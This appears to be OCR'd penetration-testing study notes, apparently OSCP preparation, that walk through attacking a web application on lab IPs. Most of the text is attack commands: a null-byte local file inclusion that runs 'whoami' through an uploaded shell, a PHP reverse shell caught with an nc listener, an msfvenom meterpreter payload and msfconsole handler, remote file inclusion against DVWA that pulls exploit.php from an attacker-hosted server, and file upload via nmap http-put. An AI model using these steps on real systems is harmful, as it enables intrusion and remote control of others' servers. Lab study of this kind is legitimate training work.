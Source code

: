 ```dirsearch -u <url>```

that goes to upload page and can trigger a command

http://10.0.2.8/index.php?page=uploads/shell.pdf%00&cmd=whoami

Shellcode to create a reverse shell

    https://github.com/GammaG/php-reverse-shell

Get the php file and change the ip and port where the shell should connect to.

    nc -nvlp 4444

In Browser:

http://10.0.2.8/index.php?page=uploads/reverseshell.pdf%00

*Privilage Escalation*

find a folder with full rights -> tmp

**Remote File Inclusion (RFI)**

Host a file yourself and let the victim download it

*Damn Vulnerable Web Application (DVWA)*

http://www.dvwa.co.uk/

*Generate Reverse shell msfvenom*

    msfvenom -p php/meterpreter/revese_tcp LHOST=<host ip> LPORT=4444 >> exploit.php

host the file with python server

    service apache2 stop
    python -m SimpleHTTPServer 80

python give you debug information

*Setup meterpreter*

alternative to nc - only once allowed in OSCP better use nc

    sudo msfconsole -q -x "use exploit/multi/handler;\
    set payload php/meterpreter/reverse_tcp;\ 
    set LHOST 192.168.134.129;\
    set LPORT 4444 ;\
    run"

    -q - start quietly
    -x - passing payload settings

on DVWA the page is called via parameter "?page=" enter here the malicious page as goal

    dvwa.com/vulnerabilites/fi/?page=http://10.0.2.6/exploit.php

**File Transfer**

*Put with nmap*

    nmap -p 80 10.0.2.11 --script http-put --script-args http-put.url='<target path>',http-put.file='<local path>'
```